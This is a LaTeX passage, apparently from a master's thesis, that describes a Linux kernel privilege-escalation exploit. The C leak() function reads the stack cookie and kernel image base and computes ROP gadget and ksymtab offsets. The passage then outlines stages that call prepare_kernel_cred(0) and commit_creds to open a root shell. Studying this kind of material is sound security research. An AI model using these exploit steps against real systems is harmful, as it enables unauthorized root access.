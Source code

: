 \documentclass{masterthesis}
\begin{document}
The first two gadgets can be used to read an arbitrary memory block, by simply popping its address subtract by 0x10 to \texttt{RAX}. The third gadget is a normal \texttt{pop RDI} for functions' parameter.

\texttt{__ x86_retpoline_r15, swapgs_restore_regs_and_return_to_usermode, ksymtab}\\ are never randomized with respect to \texttt{_text}, and in particular both \texttt{commit\_creds} and \texttt{prepare\_kernel\_cred} keep the same offset inside \texttt{ksymtab}.
Instead, to find the base image, we need to inspect the stack when reading the module, look at a large amount of data and find an address located in the \texttt{_text} region.
Reading 320 bytes, we find at 304th byte an address that falls in the region of \texttt{_text}. From that value, we have to subtract the address of \texttt{_text} and find the base image.
\begin{figure}[h!]
  \caption{Find address in the stack in no randomize region}
   \label{figure:address_graphview}
\end{figure}

\begin{lstlisting}
void leak(void){
    unsigned n = 40;
    unsigned long leak[n];
    ssize_t r = read(global_fd, leak, sizeof(leak));
    cookie = leak[16];
    image_base = leak[38] - 0xa157ULL;
    kpti_trampoline = image_base + 0x200f10UL + 22UL;
    pop_RAX_ret = image_base + 0x4d11UL;
    read_mem_pop1_ret = image_base + 0x4aaeUL;
    pop_RDI_RBP_ret = image_base + 0x38a0UL;
    ksymtab_prepare_kernel_cred = image_base + 0xf8d4fcUL;
    ksymtab_commit_creds = image_base + 0xf87d90UL;

    printf("[*] Leaked %zd bytes\n", r);
    printf("    --> Cookie: %lx\n", cookie);
    printf("    --> Image base: %lx\n", image_base);
}
}
\end{lstlisting}
At this point, we have four stages:
\begin{enumerate} 
\item leaking \texttt{commit\_creds()};   
\item leaking \texttt{prepare\_kernel\_cred};
\item calling \texttt{prepare\_kernel\_cred(0)};
\item calling \texttt{commit\_creds()} and opening root shell.
\end{enumerate}
\end{document}
